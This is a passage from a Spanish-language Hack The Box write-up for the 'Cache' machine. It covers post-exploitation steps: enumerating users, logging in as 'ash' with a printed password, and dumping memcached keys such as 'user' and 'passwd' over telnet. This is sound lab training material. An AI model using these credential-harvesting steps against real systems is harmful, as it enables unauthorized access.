 > Resumido y facil (Gracias s4vitar): https://www.youtube.com/watch?v=amKkzk-yP14&t=953

Ahora que estamos en la máquina procedemos a enumerar usuarios

![revshusers](https://github.com/jntxJ/Writeups/blob/master/HTB/Cache/images/revshusers.png)

Tenemos al usuario `ash` y `luffy`, si recuerdan al inicio de nuestra enumeración obtuvimos unas credenciales de **ash** su contraseña era **H@v3_fun**, validemos si nos permite ingresar

![revshellashh](https://github.com/jntxJ/Writeups/blob/master/HTB/Cache/images/revshellash.png)

Enumerando el archivo `$ /etc/passwd` vemos 2 programas interesantes, **mysql** y **memcached**.

![revshetcpasswd](https://github.com/jntxJ/Writeups/blob/master/HTB/Cache/images/revshetcpasswd.png)

Podríamos intentar con mysql ver si **luffy** está en la base de datos y obtener su password, pero no tendría sentido que (en caso de estar) la contraseña nos funcione, ya que sería una contraseña pero de *openemr* ósea del login y necesitamos una pero del sistema

Validando **memcached** por internet, la definición nos la da claramente el mismo [soporte](http://memcached.org/)

> Sistema de almacenamiento en caché... Diseñado para acelerar las aplicaciones web dinámicas aliviando la carga de la base de datos.

Pues esto ya suena raro e interesante. Previamente había visualizado con `$ netstat -a` que el puerto **11211** estaba a la escucha en local y siguiendo este informe (u otros) podemos ver que **memcached** usa ese puerto, los pasos para usarlo están en el mismo informe.

> Tuto: https://techleader.pro/a/90-Accessing-Memcached-from-the-command-line

Demosle 

```sh
$ telnet localhost 11211
...
...
> stats # Vemos estadisticas importantes del servidor que corre Memcached
...
STAT pid 979
STAT uptime 7565
STAT time 1599596958
STAT version 1.5.6 Ubuntu
...
...
END
> stats slabs # La data es guardada en "slabs" que serian como particiones en memoria
...
...
...
STAT 1:total_chunks 10922
STAT 1:used_chunks 5
STAT 1:free_chunks 10917
STAT 1:free_chunks_end 0
STAT 1:mem_requested 371
STAT 1:get_hits 8
...
END
# Vemos que solo tenemos un solo "slab (el numero al lado de STAT)" que tiene varios items, ahora podemos dumpear data con ese número
...
> stats cachedump 1 0 # El 1 es el ID del "slab" y con el 0 le indicamos que muestre todos los items
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
```